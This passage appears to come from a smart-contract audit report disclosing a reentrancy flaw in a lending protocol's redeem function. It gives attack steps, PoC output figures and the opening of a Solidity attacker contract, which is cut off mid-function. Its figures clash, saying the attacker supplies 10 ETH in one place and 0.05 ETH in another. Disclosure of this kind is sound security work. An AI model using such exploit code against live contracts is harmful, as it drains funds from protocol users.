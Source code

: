 4. During token transfer, receive() triggers and reenters redeem

5. Second redeem succeeds because totalInvestment wasn't updated yet

6. Process repeats until maximum extraction


### Impact

An attacker can steal tokens from the protocol by:

1. Initially supplying a small amount (e.g. 10 ETH) to get lTokens
2. Redeeming those lTokens
3. During the token transfer callback, reentering the redeem function
4. Redeeming the same tokens again before investment balance is updated
5. Repeating until maximum extraction achieved

From my PoC:
``` solidity
Initial investment: 50000000000 (0.05 ETH worth of lTokens)
Initial balance: 0
Final balance: 10000000000000000000 (10 ETH)
Extra tokens stolen: 10000000000000000000 (10 ETH)
```

In this case the attacker was able to extract 10 ETH by only supplying 0.05 ETH worth of collateral.


This vulnerability affects all protocol users since:

- It drains protocol liquidity
- Reduces available tokens for legitimate withdrawals (redemption)
- would lead to protocol insolvency
- No special privileges required to exploit



### PoC

1. create  this malicious contract :  
``` solidity
pragma solidity 0.8.23;

import {CoreRouter} from "../../src/LayerZero/CoreRouter.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract ReentrancyAttacker {
    CoreRouter public coreRouter;
    address public lToken;
    uint256 public amount;
    uint256 public attackCount;
    address public token;

    constructor(address payable _coreRouter) {
        coreRouter = CoreRouter(_coreRouter);
    }

    function attack(address _lToken, uint256 _amount, address _token) external {
        lToken = _lToken;
        amount = _amount;
        token = _token;
        attackCount = 0;
        // Use actual investment amount for redeem
        CoreRouter(coreRouter).redeem(_amount, payable(_lToken));
    }

    receive() external payable {
        if (attackCount < 1) {
```